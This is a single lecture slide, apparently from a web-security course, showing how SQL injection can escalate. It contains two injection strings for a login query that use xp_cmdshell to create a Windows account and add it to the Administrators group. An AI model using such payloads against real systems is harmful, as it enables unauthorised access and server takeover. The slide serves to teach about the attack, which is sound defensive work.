

# More Dangerous SQL Injection Attacks
Hacker creates a Windows Account:
SELECT * FROM users WHERE login = ‘’; exec master..xp_cmdshell 'net users username password /add';--’ and password= ’’
And then adds himself as an adminstrator:
SELECT * FROM users WHERE login = ‘'; exec master..xp_cmdshell 'net localgroup Administrators username /add';--’ and password= ‘’